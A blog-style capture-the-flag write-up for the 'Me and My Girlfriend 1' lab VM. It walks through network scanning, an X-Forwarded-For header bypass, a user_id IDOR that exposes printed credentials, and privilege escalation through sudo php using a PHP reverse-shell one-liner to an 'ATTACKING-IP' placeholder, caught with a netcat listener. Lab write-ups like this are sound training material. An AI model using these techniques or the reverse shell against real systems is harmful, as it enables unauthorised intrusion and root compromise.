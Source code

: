 ```yaml
---
title: "Me and My Girlfriend 1 Writeup"
date: 2020-02-16T19:09:19+11:00
description: "Writeup for Me and My Girlfriend 1 box"
draft: false
displayInLine: true
displayInMenu: true
draft: false
---
```


# Me and My Girlfriend Write-up 1

For this box, the overall objective is the break into Alice's account, find her secret (flag1.txt) and then gain root access (flag2.txt). When booting up the VM your greeted with a standard ubuntu login. Since no SQL injections work on this login, I need to find the IP of this machine to begin an NMAP scan.

To do this, I use the following command on my kali machine:

    netdiscover -r 192.168.220.0
    
    # -r = range of ips

This will allow me to detect any IP that exists in this range.

<figure>
<img src="/img/meand.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

As seen there are 4 IPs shown, only one of these is the IP of the Alice machine. since *.1* and *.254* are the network and broadcast IP respectively, these leaves *.156* and *.2* but *.2* is most likely the gateway address.

I can further test this by performing and NMAP scan on the IP 192.168.220.156.

    nmap -A 192.168.220.156

<figure>
<img src="/img/Untitled one.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Boom so now I know that there are 2 open ports I can use. But one of them being port 80 with an apache version shows that there's a website. So now I'm going to see if I can access the website normally.

<figure>
<img src="/img/Untitled 2.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So we are greeted with this kind message telling that the site can only be accessed locally. So lets see if theres anything else.

<figure>
<img src="/img/Untitled 3.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

There's a comment here saying that we should look up how to use x-forwarded-for

<figure>
<img src="/img/Untitled 4.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So what we've gathered is that X-Forwarded-For is a HTTP header field. So from this lets have a look at the header field for the website by using **Burp Suite**

So before setting it up I have to make the necessary changes to Firefox

<figure>
<img src="/img/Untitled 5.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 6.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 7.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

- So we have to change the proxy setting in Firefox to be the same as the proxy listener in Burp Suite. By going to the bottom of preferences in Network Proxy and changing the configure proxy to manual and inputting the HTTP Proxy as the same IP and Port: *127.0.0.1 8080 .*

Now that this is configured we can refresh the page and capture the page.

<figure>
<img src="/img/Untitled 8.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

So once we captured it, we can see the data it is able to capture in the refresh. If we navigate to headers we can see what information the headers have.

<figure>
<img src="/img/Untitled 9.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

This is the header info for the site. So if we were to insert the X-Forwarder-For somewhere we should able to access local. 

<figure>
<img src="/img/Untitled 10.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
Inserting that should allow us to gain access to local given the two hints.

    X-Forwarded-For: localhost

<figure>
<img src="/img/Untitled 11.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

<figure>
<img src="/img/Untitled 12.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Perfect, I gained access to the proper page. Now let’s have a look around.

There was nothing of notability so now I’m going to register to see if there anything else.

<figure>
<img src="/img/Untitled 13.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Now that I've registered I'm going to look around for potential clues.

<figure>
<img src="/img/Untitled 14.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

I started playing around with the user_id in the url to see if it changes anything. and so it does. Now im just going to input random numbers and see where it goes.

<figure>
<img src="/img/Untitled 15.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Bingo, Alice. Now that we found her profile, we need to find out the password.

<figure>
<img src="/img/Untitled 16.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>v

In the source code we’ve got the username and password,

    alice
    4lice3

Now to use this password on the Alice machine.

<figure>
<img src="/img/Untitled 17.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>

Were in, now lets dig in and find the flag

<figure>
<img src="/img/Untitled 18.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
So now we've got the first flag within a hidden file. Now we need to get root access to get the second flag.

So I didn't know where to go from here so I tried to find out what sudo command that Alice can use.

<figure>
<img src="/img/Untitled 19.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
    sudo -l
    -l = list of If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

Using the above command, I can determine that the Alice user can use the following command as root:

    /usr/bin/php

Now I need to figure a way to exploit this to gain root access.

After doing some researching into it, I found a cheat sheet for reverse shells and found this command:

    php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

This alongside netcat should allow me to gain access through the kali machine using the following command

    nc -nvlp 80

<figure>
<img src="/img/Untitled 20.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 21.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
<figure>
<img src="/img/Untitled 22.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
Boom now I'm root, now I just need to navigate to the second flag.

<figure>
<img src="/img/Untitled 23.png" >
<figcaption>
*Hacksplaining Information of an SQL Injection*
</figcaption>
</figure>
